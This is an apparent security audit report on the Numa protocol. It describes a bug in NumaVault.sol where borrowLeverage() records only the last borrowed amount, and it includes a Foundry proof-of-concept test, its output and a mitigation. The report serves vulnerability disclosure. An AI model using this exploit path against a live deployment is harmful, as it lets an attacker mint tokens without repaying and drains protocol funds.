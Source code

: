Rapid Mint Sheep

Medium

# NumaVault.sol borrowLeverage() only records last leverageDebt value

### Summary

`NumaVault.sol` `borrowLeverage()` only records last `_amount` in `leverageDebt`. If a malicious user calls `borrowLeverage()` multiple times, they only need to call `repayLeverage()` once and repay the last amount borrowed to have their `leverageDebt` reduced to 0.

### Root Cause

`NumaVault.sol` `borrowLeverage()`does not record down the cumulative `_amount` borrowed by a user.

https://github.com/sherlock-audit/2024-12-numa-audit/blob/main/Numa/contracts/NumaProtocol/NumaVault.sol#L1235-L1261

### Internal pre-conditions

N/A.

### External pre-conditions

N/A.

### Attack Path

1. A malicious user calls `borrowLeverage()` multiple times.
2. Only the last call `_amount` to `borrowLeverage()` is recorded as `leverageDebt` in `NumaVault.sol` smart contract.
3. When the malicious user calls `repayLeverage()`, only the last recorded `leverageDebt` needs to be repaid for the `leverageDebt` to be cleared to 0.

### Impact

The attacker can gain an arbitrary amount of the underlying token in the `minterContract` without needing to repay them back.

### PoC

Place in `contracts/Test`
To run: 

```bash
FOUNDRY_PROFILE=lite forge test -vvv contracts/Test/NumaVaultLeverageDebt.t.sol
```

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

import "forge-std/console2.sol";
import {Setup} from "./utils/SetupDeployNuma_Arbitrum.sol";
import "@uniswap/v3-core/contracts/libraries/FullMath.sol";
import "../lending/ExponentialNoError.sol";
import "../interfaces/IVaultManager.sol";

import "./mocks/VaultMockOracle.sol";
import {VaultOracleSingle} from "../NumaProtocol/VaultOracleSingle.sol";
import {NumaVault} from "../NumaProtocol/NumaVault.sol";
import "@openzeppelin/contracts_5.0.2/token/ERC20/ERC20.sol";

import {console} from "forge-std/console.sol";

// forge coverage --report lcov
//$Env:FOUNDRY_PROFILE = 'lite'
// npx prettier --write --plugin=prettier-plugin-solidity 'contracts/**/*.sol'
contract NumaVaultLeverageDebt is Setup, ExponentialNoError {
    
    uint inputreth = 2 ether;
    uint vaultBalance;
    uint userBalance;

    uint buyfee;
    uint sellfee;

    ERC20 wsteth;
    function setUp() public virtual override {
        console.log("NumaVaultLeverageDebt setUp()");
        console2.log("VAULT TEST");
        super.setUp();
        // send some rEth to userA
        vm.stopPrank();
        vm.prank(deployer);
        rEth.transfer(userA, 1000 ether);
        vm.prank(deployer);
        numa.transfer(userA, 1000000 ether);
        //
        vaultBalance = rEth.balanceOf(address(vault)); userBalance = rEth.balanceOf(userA);

        buyfee = vaultManager.buy_fee();
        sellfee = vaultManager.sell_fee();

        wsteth = ERC20(WSTETH_ADDRESS_ARBI);
        deal({token: WSTETH_ADDRESS_ARBI, to: deployer, give: 100 ether});
    }

    function test_BuySell2ndVault() public {
        uint amountBuy = vaultManager.ethToNuma(
            inputreth,
            IVaultManager.PriceType.BuyPrice
        );

        vm.startPrank(deployer);
        // deploy 2nd vault
        VaultOracleSingle vo2 = new VaultOracleSingle(
            WSTETH_ADDRESS_ARBI,
            PRICEFEEDWSTETHETH_ARBI,
            402 * 86400,
            UPTIME_FEED_NULL
        );
        NumaVault v2 = _setupVault(vo2,
          address(numaMinter),address(vaultManager),numa,
          0,0
        );

        v2.setFeeAddress(vaultFeeReceiver, false);
        v2.setRwdAddress(vaultRwdReceiver, false);

        v2.unpause();

        v2.setCTokens(deployer, address(0x0));

        console.log(" address(numa) = ", address(numa));
        console.log(" address(v2.cNuma()) = ", address(v2.cNuma()));

        uint256 amount = 1;
        bool closePosition = true;


        console.log(" numa.balanceOf(deployer) = ", numa.balanceOf(deployer));

        v2.borrowLeverage(amount, closePosition);

        console.log(" after 1st borrowLeverage() numa.balanceOf(deployer) = ", numa.balanceOf(deployer));

        v2.borrowLeverage(amount, closePosition);

        console.log(" after 2nd borrowLeverage() numa.balanceOf(deployer) = ", numa.balanceOf(deployer));

        amount = 1;
        numa.approve(address(v2), amount);
        v2.repayLeverage(closePosition);

        console.log(" after repayLeverage() numa.balanceOf(deployer) = ", numa.balanceOf(deployer));

        vm.stopPrank();


    }

}

```

Example output:

```bash
Ran 1 test for contracts/Test/NumaVaultLeverageDebt.t.sol:NumaVaultLeverageDebt
[PASS] test_BuySell2ndVault() (gas: 6378919)
Logs:
  NumaVaultLeverageDebt setUp()
  VAULT TEST
   address(numa) =  0x8Ad159a275AEE56fb2334DBb69036E9c7baCEe9b
   address(v2.cNuma()) =  0xaE0bDc4eEAC5E950B67C6819B118761CaAF61946
   numa.balanceOf(deployer) =  8600000000000000001295249
   after 1st borrowLeverage() numa.balanceOf(deployer) =  8600000000000000001295250
   after 2nd borrowLeverage() numa.balanceOf(deployer) =  8600000000000000001295251
   after repayLeverage() numa.balanceOf(deployer) =  8600000000000000001295250

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 42.33s (4.14s CPU time)

Ran 1 test suite in 42.33s (42.33s CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

From the output we see that first the deployer (which is the attacker in this case) has 8600000000000000001295249 Numa tokens.

They call `borrowLeverage()` twice and are minted 1 Numa token each time resulting in 8600000000000000001295251 Numa tokens.

They repay the last 1 Numa token minted using `repayLeverage()` reducing their `leverageDebt` to 0 but still have 8600000000000000001295250 Numa token which is 1 more than what they should have.

The attacker can call `borrowLeverage()` an arbitrary number of times to mint an arbitrary amount of Numa tokens to themselves.

### Mitigation

1. Set  a flag so that `borrowLeverage()` can't be called again until `repayLeverage()` is called.
2. Change in `borrowLeverage()` to record the cumulative `_amount` borrowed with:
```solidity
            leverageDebt += _amount;
```